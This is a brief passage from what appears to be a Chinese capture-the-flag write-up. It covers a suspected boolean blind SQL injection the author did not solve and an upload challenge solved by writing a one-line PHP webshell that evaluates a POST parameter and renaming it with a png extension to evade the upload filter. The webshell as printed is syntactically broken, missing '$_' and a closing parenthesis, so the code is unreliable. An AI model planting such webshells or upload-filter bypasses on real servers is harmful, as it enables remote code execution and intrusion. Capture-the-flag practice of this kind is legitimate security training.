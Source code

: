 ![image-20231120152003641](assets/img/2023/11/image-20231120152003641.png)

没回显，应该时布尔盲注。

sqlmap没装好，不会做。

------

#### n00b_Upload | 已完成

------

写好一句话木马

```
<?= eval(POST['cmd'] ?>
```

将文件后缀改为png
